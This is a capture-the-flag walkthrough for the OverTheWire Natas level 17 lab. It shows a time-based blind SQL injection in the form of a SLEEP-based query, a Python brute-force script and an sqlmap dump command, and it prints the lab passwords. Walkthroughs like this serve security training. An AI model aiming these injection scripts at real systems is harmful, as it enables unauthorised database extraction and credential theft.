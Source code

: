 # OverTheWire Wargames

## Natas Level 16 --> Level 17

**Username:** natas17

**Password:** 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw

**URL:**      http://natas17.natas.labs.overthewire.org

 
### Solution
* Click view sourcecode there you can see that there isn't any output we got back from the server, so we need to think out something else to determine the response of the select statement
* We can use 'SLEEP(n)' to determine from the response time whether entered character exists in the password or not, using this query (Time-based attacks):
```
 SELECT * from users where username="natas18" AND password LIKE BINARY '{char}%' AND SLEEP(5) --
```
* Notice that the condition after 'AND' execute only if the previous condition returns TRUE, so if the password condition return true the response should be delayed by 5sec
* We can implement this approach in two ways:
##### Python Script
* To perform brute-force to retrieve the password using Time-based attack use this python script:
```py
  import requests, string

  chars = string.ascii_uppercase + string.ascii_lowercase + '0123456789'
  base_url = 'http://natas17.natas.labs.overthewire.org/index.php?username='
  password = ''

  newChars = []
  for char in chars:
      r = requests.get(base_url+f'natas18%22+AND+password+LIKE+BINARY+%22%25{char}%25%22+AND+SLEEP%285%29+%23', auth=('natas17', '8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw'))
      if r.elapsed.total_seconds() >= 5:
          newChars.append(char)

  chars = ''.join(newChars)
  print('Characters used in password: ' + chars)            

  for i in range(32):
      cnt = 0
      while True:
          payload = password + chars[cnt]
          r = requests.get(base_url+f'natas18%22+AND+password+LIKE+BINARY+%22{payload}%25%22+AND+SLEEP%285%29+%23', auth=('natas17', '8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw'))
          cnt += 1

          if r.elapsed.total_seconds() >= 5:
              password = payload
              print(password, end = '\r')
              break
```

##### Sqlmap
* Use this command to retreive the password using sqlmap *(Database name and columns name can be found in the sourcecode)*
```sh
  sqlmap -u "http://natas17.natas.labs.overthewire.org/index.php" --auth-type=Basic --auth-cred=natas17:8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw --data="username=natas18" --level=3 --risk=1 --technique=T --threads=4 --dbms=MySQL -D natas17 -T users -C username,password --dump --batch
```
* Here is an explaination of each flag:
> -u              URL
> 
> --auth-type     HTTP authentication
> 
> --auth-cred     HTTP authentication credentials (name:password)
> 
> --data          Data string to be sent
> 
> --level         Number of checks to be performed.  (Range is 1 to 5. Default is 1.)
> 
> --risk          Types of payloads to use. Higher numbers could cause problems for the server. (Range is 1 to 3.  Default is 1.)
> 
> --technique     T is for Time-based attacks
> 
> --threads       Max number of concurrent HTTP(s) requests
> 
> --dbms          DataBase Management System 
> 
> -D              Database name 
>        
> -T              Table name
> 
> -C              Column name(s)
> 
> --dump          Dump DBMS database table entries
> 
> --batch         Never ask for user input, use the default behaviour


* You got the password!!

### Natas18 Password
> xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP
